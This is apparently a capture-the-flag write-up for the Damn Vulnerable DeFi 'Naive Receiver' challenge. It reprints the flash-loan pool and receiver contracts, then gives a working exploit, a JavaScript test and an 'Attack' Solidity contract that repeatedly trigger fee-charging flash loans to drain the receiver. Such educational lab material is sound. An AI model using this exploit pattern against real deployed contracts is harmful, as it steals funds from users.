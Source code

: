 # 02_NaiveReceiver

## Challenge

There’s a pool with 1000 ETH in balance, offering flash loans. It has a fixed fee of 1 ETH.

A user has deployed a contract with 10 ETH in balance. It’s capable of interacting with the pool and receiving flash loans of ETH.

Take all ETH out of the user’s contract. If possible, in a single transaction.

You are provided with the code for the flash loan providing pool:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashLender.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";
import "solady/src/utils/SafeTransferLib.sol";
import "./FlashLoanReceiver.sol";

/**
 * @title NaiveReceiverLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract NaiveReceiverLenderPool is ReentrancyGuard, IERC3156FlashLender {

    address public constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;
    uint256 private constant FIXED_FEE = 1 ether; // not the cheapest flash loan
    bytes32 private constant CALLBACK_SUCCESS = keccak256("ERC3156FlashBorrower.onFlashLoan");

    error RepayFailed();
    error UnsupportedCurrency();
    error CallbackFailed();

    function maxFlashLoan(address token) external view returns (uint256) {
        if (token == ETH) {
            return address(this).balance;
        }
        return 0;
    }

    function flashFee(address token, uint256) external pure returns (uint256) {
        if (token != ETH)
            revert UnsupportedCurrency();
        return FIXED_FEE;
    }

    function flashLoan(
        IERC3156FlashBorrower receiver,
        address token,
        uint256 amount,
        bytes calldata data
    ) external returns (bool) {
        if (token != ETH)
            revert UnsupportedCurrency();
        
        uint256 balanceBefore = address(this).balance;

        // Transfer ETH and handle control to receiver
        SafeTransferLib.safeTransferETH(address(receiver), amount);
        if(receiver.onFlashLoan(
            msg.sender,
            ETH,
            amount,
            FIXED_FEE,
            data
        ) != CALLBACK_SUCCESS) {
            revert CallbackFailed();
        }

        if (address(this).balance < balanceBefore + FIXED_FEE)
            revert RepayFailed();

        return true;
    }

    // Allow deposits of ETH
    receive() external payable {}
}
```

you also get the code for the Receiver:

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "solady/src/utils/SafeTransferLib.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";
import "./NaiveReceiverLenderPool.sol";

/**
 * @title FlashLoanReceiver
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract FlashLoanReceiver is IERC3156FlashBorrower {

    address private pool;
    address private constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;

    error UnsupportedCurrency();

    constructor(address _pool) {
        pool = _pool;
    }

    function onFlashLoan(
        address,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata
    ) external returns (bytes32) {
        assembly { // gas savings
            if iszero(eq(sload(pool.slot), caller())) {
                mstore(0x00, 0x48f5c3ed)
                revert(0x1c, 0x04)
            }
        }
        
        if (token != ETH)
            revert UnsupportedCurrency();
        
        uint256 amountToBeRepaid;
        unchecked {
            amountToBeRepaid = amount + fee;
        }

        _executeActionDuringFlashLoan();

        // Return funds to pool
        SafeTransferLib.safeTransferETH(pool, amountToBeRepaid);

        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    // Internal function where the funds received would be used
    function _executeActionDuringFlashLoan() internal { }

    // Allow deposits of ETH
    receive() external payable {}
}
```

## Solution

If we take a look at the test case, we see that to solve the challenge all money in the receiver shall be drained and all of it shall now be in the pool.

### Easy way

As the receiver just pays the fee for any call it gets from its pool we can just call the pool 10x and set the receiver to receive the flash loan and have to pay the 1 ETH fee. This can be just achieved by calling flash loan 10x:

```js
    it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */

        const ETH = await pool.ETH();
        await pool.connect(player).flashLoan(receiver.address, ETH, await pool.maxFlashLoan(ETH), "0x");
        await pool.connect(player).flashLoan(receiver.address, ETH, await pool.maxFlashLoan(ETH), "0x");
        await pool.connect(player).flashLoan(receiver.address, ETH, await pool.maxFlashLoan(ETH), "0x");
        await pool.connect(player).flashLoan(receiver.address, ETH, await pool.maxFlashLoan(ETH), "0x");
        await pool.connect(player).flashLoan(receiver.address, ETH, await pool.maxFlashLoan(ETH), "0x");
        await pool.connect(player).flashLoan(receiver.address, ETH, await pool.maxFlashLoan(ETH), "0x");
        await pool.connect(player).flashLoan(receiver.address, ETH, await pool.maxFlashLoan(ETH), "0x");
        await pool.connect(player).flashLoan(receiver.address, ETH, await pool.maxFlashLoan(ETH), "0x");
        await pool.connect(player).flashLoan(receiver.address, ETH, await pool.maxFlashLoan(ETH), "0x");
        await pool.connect(player).flashLoan(receiver.address, ETH, await pool.maxFlashLoan(ETH), "0x");
    });
```

After this, the receiver transferred all his money to the pool and we solved the challenge

### Hard Way

The description state that we should also be able to do everything in one transaction. This is also achievable pretty easily. I just implemented a small attack contract, which if called, just calls the same flash loan function 10x. So we have one tx for everything. 

```solidity
// SPDX-License-Identifier: UNLICENSED

pragma solidity ^0.8.0;

import "./NaiveReceiverLenderPool.sol";
import "./FlashLoanReceiver.sol";

contract Attack {

    address public constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;

    function getEmBoyz(address payable receiver, address payable pool) public
    {
        for (uint256 i = 0; i < 10; i++) {
            NaiveReceiverLenderPool(pool).flashLoan(FlashLoanReceiver(receiver), ETH, NaiveReceiverLenderPool(pool).maxFlashLoan(ETH), "0x");
        }
    }
}
```

We then just deploy this contract and call its function getEmBoyz().

```js
it('Execution', async function () {
    /** CODE YOUR SOLUTION HERE */

    const Attack = await ethers.getContractFactory('Attack', player);
    attack = await Attack.deploy();
    await attack.connect(player).getEmBoyz(receiver.address, pool.address);
});
```

This yields us the same result, in one instead of ten transactions.